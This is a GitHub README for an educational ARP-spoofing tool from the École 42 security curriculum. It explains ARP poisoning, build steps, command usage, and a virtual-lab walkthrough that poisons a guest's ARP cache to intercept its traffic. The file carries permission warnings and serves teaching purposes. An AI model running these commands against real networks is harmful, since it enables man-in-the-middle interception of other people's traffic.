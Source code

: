 # 42 Malcolm

![OS](https://img.shields.io/badge/OS-Linux-blue.svg)
![Language](https://img.shields.io/badge/Language-C-orange.svg)
![Status](https://img.shields.io/badge/Status-Pending_Evaluation-darkgrey.svg?logo=42)
[![Tests](https://github.com/vinicius507/ft_malcolm/actions/workflows/tests.yml/badge.svg)](https://github.com/vinicius507/ft_malcolm/actions/workflows/tests.yml)

[![en](https://img.shields.io/badge/Lang-en-red.svg)](./README.md)
[![pt-br](https://img.shields.io/badge/Lang-pt--br-green.svg)](./README.pt-br.md)

An ARP Poisoning tool written in C using the 99 standard.

> [!WARNING]
>
> This application performs ARP spoofing, a network attack technique that can
> disrupt communication on a network. Using ARP spoofing without permission is
> a violation of security policies and may be illegal. It's crucial to only use
> this tool in controlled environments, such as a personal lab network, for
> educational or testing purposes.
>
> This tool was built as part of the École 42 Security curriculum and is
> intended for educational purposes only. The author does not condone or
> encourage the use of this tool for malicious purposes.

## What is ARP?

The Address Resolution Protocol is a Layer 2 protocol that maps hardware
addresses, such as a MAC address, to a Layer 3 protocol address, such as an
IPv4 address.

## How does ARP poisoning work?

The ARP protocol is a stateless protocol, meaning that network hosts will
automatically cache any ARP replies they receive, regardless of whether they
requested them.

ARP poisoning works by sending unsolicited ARP replies to a host, associating
a protocol address to the attackers hardware address.

## Usage

### Building from Source

**Requirements:**

- Clang 12
- GNU Make
- [My Libft library](https://github.com/vinicius507/libft)

**Instructions:**

1. Clone the 42 Malcolm repository:

   ```bash
   git clone https://github.com/vinicius507/ft_malcolm.git
   ```

2. Clone the Libft repository:

   ```bash
   git clone https://github.com/vinicius507/libft.git
   ```

3. Navigate to the project directory:

   ```bash
   cd ft_malcolm
   ```

4. Build the tool:

   ```bash
   make LIBFT_DIR=../libft/libft -C ./ft_malcolm # Adjust the path if necessary
   ```

### Building with Nix

If you prefer using Nix, you can build the application by navigating to the
project directory and using the following command:

```bash
nix build .#
```

This assumes you have a valid Nix environment set up. The build process will
handle downloading and linking dependencies automatically.

### Running the Application

**Before running:**

- Ensure you have **explicit permission** to run this tool on the target network.
- Be aware of the potential impact of ARP poisoning on the network.

**Running the tool:**

> [!NOTE]
>
> It is required to have root privileges to run the application.

```bash
./ft_malcolm [OPTION...] SOURCE_IP SOURCE_MAC TARGET_IP TARGET_MAC
```

**Positional Arguments:**

- `SOURCE_IP`: The IP address to be spoofed as the source.
- `SOURCE_MAC`: The MAC address to be spoofed as the source.
- `TARGET_IP`: The IP address of the target device.
- `TARGET_MAC`: The MAC address of the target device.

**Optional Arguments:**

- `-g, --gratuitous`: Send a gratuitous ARP packet to broadcast (`FF:FF:FF:FF:FF:FF`).
- `-i, --interface`: The network interface to use, if not specified, the first
  available interface will be used.
- `-v, --verbose`: Enable verbose output for packet information.

**Example:**

```bash
./ft_malcolm 192.168.122.67 AA:BB:CC:DD:EE:FF 192.168.122.206 00:11:22:33:44:55
```

## Testing Environment

The application was tested on a virtualized environment using QEMU/KVM with the
following setup:

- **Host OS (Attacker):** NixOS 24.11
- **Guest 1 OS:** Debian 12
- **Guest 2 OS:** Debian 12
- **Network:** Bridged network with DHCP

For ARP poisoning to work, the bridge network must be configured to not filter
packets using the host system firewall. This can be done by running the
following commands as root on the host:

```bash
ip link set dev BRIDGE type bridge nf_call_arptables 0
ip link set dev BRIDGE type bridge nf_call_iptables 0
```

Where `BRIDGE` is the name of the bridge network interface.

If you wish to forward packets from the host between the guest and the network,
you can enable IP forwarding by running:

```bash
sysctl -w net.ipv4.ip_forward=1
```

To perform the attack, you can run the application on the host, spoofing the
guest IP and MAC address as the source and the router IP and MAC address as the
target.

First, send a gratuitous ARP packet to intercept all traffic going to `GUEST_1`:

```bash
./ft_malcolm GUEST_1_IP ATTACKER_MAC --interface=BRIDGE --gratuitous
```

Then, listen for ARP packets from `GUEST_1` requesting the `GUEST_2` MAC address:

```bash
./ft_malcolm GUEST_2_IP ATTACKER_MAC GUEST_1_IP GUEST_1_MAC --interface=BRIDGE
```

Checking the ARP cache on `GUEST_1` should show the `GUEST_2` MAC address as
the attacker's MAC address.

```bash
$ cat /proc/net/arp
IP address       HW type     Flags       HW address            Mask     Device
ATTACKER_IP      0x1         0x2         ATTACKER_MAC          *        BRIDGE
GUEST_2_IP       0x1         0x2         ATTACKER_MAC          *        BRIDGE
```

This will intercept all traffic from `GUEST_1` to `GUEST_2`, allowing you to
inspect and modify packets as needed.

| ![Screenshot of Wireshark showing an intercepted HTTP reply](./assets/wireshark.png) |
| :----------------------------------------------------------------------------------: |
|                    _Wireshark showing an intercepted HTTP reply_                     |
